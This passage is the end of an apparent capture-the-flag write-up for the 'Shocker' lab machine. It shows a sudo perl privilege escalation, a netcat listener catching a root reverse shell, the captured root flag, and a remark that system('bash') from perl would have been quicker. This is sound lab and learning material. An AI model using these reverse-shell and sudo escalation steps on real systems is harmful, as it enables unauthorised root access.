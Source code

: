 > On the server
{:.filename}
{% highlight text %}
{% raw %}
shelly@Shocker:/tmp$ sudo /usr/bin/perl root.pl
{% endraw %}
{% endhighlight %}

And finally I was (g)`root`!
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1233
listening on [any] 1233 ...
connect to [10.10.15.101] from (UNKNOWN) [10.10.10.56] 40344
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
{% endraw %}
{% endhighlight %}

Alright, the `root` flag ...
{% highlight text %}
{% raw %}
# cat /root/root.txt
52c2715605d70c7619030560dc1ca467
{% endraw %}
{% endhighlight %}

# Wrapping up
It was hard for me to find the entry point, but after that, it was pretty simple. I noticed that sometimes I overcomplicate stuff e.g. I think I could have just set up a perl script with `system("bash")` and get `root` in the fraction of the time, but I only thought about that hours after. I feel that I lack some enumeration skills and mindset, but that is the purpose of me working on these boxes. 

exit(0);
